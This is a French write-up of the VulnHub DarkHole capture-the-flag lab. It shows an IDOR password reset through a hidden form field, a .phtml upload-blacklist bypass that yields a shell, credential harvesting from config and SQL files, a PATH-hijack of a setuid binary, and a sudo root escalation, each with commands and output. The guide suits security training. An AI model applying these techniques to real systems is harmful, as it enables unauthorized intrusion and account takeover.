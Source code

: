 ```yaml
---
title: "Solution du CTF DarkHole de VulnHub"
tags: [CTF, VulnHub]
---
```


Le CTF [DarkHole](https://vulnhub.com/entry/darkhole-1,724/) était simple, mais assez intéressant parce qu'il s'éloignait de l'habituelle faille SQL que l'on trouve sur les challenges. Il y a tellement de failles web existantes alors pourquoi se limiter à une ?

## You are doing it wrong

Sur le port 80 on trouve un site avec une page de login. Il est aussi possible de s'enregistrer donc je m'exécute aussitôt.

Une fois connecté je trouve un formulaire permettant de changer mon mot de passe.

Premier constat : l'ancien mot de passe n'est pas demandé, ce qui en fait un bon candidat à un *Cross Site Request Forgery* mais surtout en regardant le code du formulaire, on voit qu'un champ caché `id` spécifie quel utilisateur est la cible du changement de mot de passe :

```html
<form name="event" method="post">
    <input type="password" name="password" id="ftitle" placeholder="New Password">
    <input type="hidden" name="id" value="2">
    <input type="submit" id="fsubmit" value="Change" class="button">
</form>
```

Il suffit d'éditer la valeur de `id` pour la mettre à `1` via les dev-tools puis de se connecter avec le compte `admin` et le mot de passe que l'on a défini.

On trouve cette fois un formulaire d'upload mais quand on tente d'uploader un fichier avec l'extension `.php` on se fait jeter :

> Sorry , Allow Ex : jpg,png,gif

J'ai d'abord pensé à une whitelist et j'ai donc tenté les doubles extensions (`.php.png`) mais le fichier uploadé n'était pas interprété.

Finalement en utilisant l'extension `.phtml` l'upload fonctionnait correctement, preuve que le script utilisait en fait une blacklist trop permissive.

## Blague de toto

Une fois un shell récupéré je trouve un fichier `config/database.php` à la racine du site :

```php
<?php
$connect = new mysqli("localhost",'john','john','darkhole');
```

Et aussi un fichier `darkhole.sql` dans `/var/www` :

```sql
INSERT INTO `users` (`id`, `username`, `email`, `password`) VALUES
(1, 'admin', 'admin@admin.com', 'EWIOEJIOejw@(#I(@djslKJ');
```

Aucun de ces mots de passe ne semble accepté par le système alors je continue ma route avec les fichiers de l'utilisateur `john` :

```console
www-data@darkhole:/$ find / -user john -ls 2> /dev/null 
   131110      4 drwxrwxrwx   5 john     john         4096 Jul 17  2021 /home/john
   131120      4 -rwxrwx---   1 john     john            1 Jul 17  2021 /home/john/file.py
   131121      4 -rw-rw----   1 john     john           24 Jul 17  2021 /home/john/user.txt
   131114      4 -rw-------   1 john     john           37 Jul 17  2021 /home/john/.mysql_history
   131122      4 drwxrwx---   2 john     www-data     4096 Jul 17  2021 /home/john/.ssh
   131123      4 -rw-------   1 john     www-data     2602 Jul 17  2021 /home/john/.ssh/id_rsa
   131125      4 -rw-r--r--   1 john     www-data      222 Jul 17  2021 /home/john/.ssh/known_hosts
   131124      4 -rw-r--r--   1 john     www-data      567 Jul 17  2021 /home/john/.ssh/id_rsa.pub
   131131      4 -rwxrwx---   1 john     john            8 Jul 17  2021 /home/john/password
   131128      4 -rw-------   1 john     john         1722 Jul 17  2021 /home/john/.bash_history
   131111      4 -rw-r--r--   1 john     john          807 Jul 16  2021 /home/john/.profile
   131126      4 drwx------   2 john     john         4096 Jul 17  2021 /home/john/.cache
   131112      4 -rw-r--r--   1 john     john          220 Jul 16  2021 /home/john/.bash_logout
   131113      4 -rw-r--r--   1 john     john         3771 Jul 16  2021 /home/john/.bashrc
   131115      4 drwxrwxr-x   3 john     john         4096 Jul 17  2021 /home/john/.local
   131116      4 drwx------   3 john     john         4096 Jul 17  2021 /home/john/.local/share
```

Les permissions sur le dossier de `john` et son `.ssh` sont intéressantes. J'ai créé un fichier `authorized_keys` contenant ma clé publique SSH mais le serveur SSH continuait à demander un mot de passe...

Finalement en regardant dans le dossier de l'utilisateur il y avait aussi un fichier ne lui appartenant pas :

```
-rwsr-xr-x 1 root root      17K Jul 17  2021 toto
```

C'est un binaire setuid et une analyze rapide avec `gdb` montre qu'il fait un `setuid` pour un utilisateur différent de `root` et exécute la commande `id` :

```nasm
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000001189 <+0>:     endbr64 
   0x000000000000118d <+4>:     push   rbp
   0x000000000000118e <+5>:     mov    rbp,rsp
   0x0000000000001191 <+8>:     mov    edi,0x3e9
   0x0000000000001196 <+13>:    call   0x1090 <setuid@plt>
   0x000000000000119b <+18>:    mov    edi,0x3e9
   0x00000000000011a0 <+23>:    call   0x1080 <setgid@plt>
   0x00000000000011a5 <+28>:    lea    rdi,[rip+0xe58]        # 0x2004
   0x00000000000011ac <+35>:    mov    eax,0x0
   0x00000000000011b1 <+40>:    call   0x1070 <system@plt>
   0x00000000000011b6 <+45>:    nop
   0x00000000000011b7 <+46>:    pop    rbp
   0x00000000000011b8 <+47>:    ret    
End of assembler dump.
gdb-peda$ x/s 0x2004
0x2004: "id"
```

En l'occurrence l'UID est celui de `John` :

```console
www-data@darkhole:/home/john$ ./toto 
uid=1001(john) gid=33(www-data) groups=33(www-data)
```

Il suffit de placer un `dash` sous le nom `id` dans le dossier courant et d'appeler l'exécutable avec le `PATH` modifié :

```console
www-data@darkhole:/home/john$ PATH=.:$PATH ./toto 
$ whoami
john
$ cat user.txt
DarkHole{You_Can_DO_It}
$ cat password
root123
```

Ce mot de passe permet de se connecter avec l'utilisateur `darkhole`, membre du groupe `sudo` :

```console
$ su darkhole
Password: 
darkhole@darkhole:/home/john$ sudo -l
[sudo] password for darkhole: 
Matching Defaults entries for darkhole on darkhole:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User darkhole may run the following commands on darkhole:
    (ALL : ALL) ALL
darkhole@darkhole:/home/john$ sudo su
root@darkhole:/home/john# cd /root
root@darkhole:~# ls
root.txt  snap
root@darkhole:~# cat root.txt
DarkHole{You_Are_Legend}
```


